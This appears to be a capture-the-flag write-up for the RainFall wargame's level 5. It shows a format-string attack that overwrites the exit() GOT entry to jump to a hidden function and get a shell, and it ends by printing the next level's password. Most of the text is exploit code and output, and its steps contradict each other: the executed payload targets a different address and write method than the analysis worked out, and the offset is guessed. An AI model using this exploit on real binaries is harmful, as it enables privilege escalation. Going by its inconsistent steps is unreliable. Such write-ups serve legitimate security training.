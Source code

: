 # Level 5 - GOT Overwrite with Format String

## Objective
Overwrite `exit()` GOT entry to redirect execution to `o()` function.

## Analysis

### Finding Target Function
```bash
(gdb) info functions
0x080484a4  o

(gdb) print o
$1 = {<text variable, no debug info>} 0x80484a4 <o>
```

### Finding GOT Entry for exit()
```bash
objdump -R level5

OFFSET   TYPE              VALUE
0804997c R_386_JUMP_SLOT   exit
```

### Testing Format String Offset
```bash
level5@RainFall:~$ python -c 'print "AAAA" + ".%x"*10' | ./level5
```

Find where "AAAA" (0x41414141) appears - let's say 4th position.

## Exploitation Strategy

We need to write `0x080484a4` to address `0x0804997c`.

### Method: Write in Two Parts
Split the address into two shorts:
- Low: 0x84a4 (33956 in decimal)
- High: 0x0804 (2052 in decimal)

Write to:
- 0x0804997c (low 2 bytes)
- 0x0804997e (high 2 bytes)

### Crafting Payload
```python
# Addresses (little-endian)
exit_got_low = "\x7c\x99\x04\x08"
exit_got_high = "\x7e\x99\x04\x08"

# Calculate padding
# We want: 33956 total for first write, 2052 for second
# But 2052 < 33956, so we write 0x10804 = 67588
# 67588 - 33956 = 33632

payload = exit_got_low + exit_got_high
payload += "%33948x"  # 33956 - 8 (two addresses)
payload += "%4$n"     # Write to 4th param
payload += "%33632x"  # 67588 - 33956
payload += "%5$n"     # Write to 5th param

print payload
```

### Execution
```bash
level5@RainFall:~$ python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"' > /tmp/exploit
level5@RainFall:~$ cat /tmp/exploit - | ./level5
                                                                                                                                                                                                              512
whoami
level6
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

## Key Concepts
- GOT (Global Offset Table)
- GOT overwrite technique
- Format string arbitrary write
- Writing 32-bit values with %hn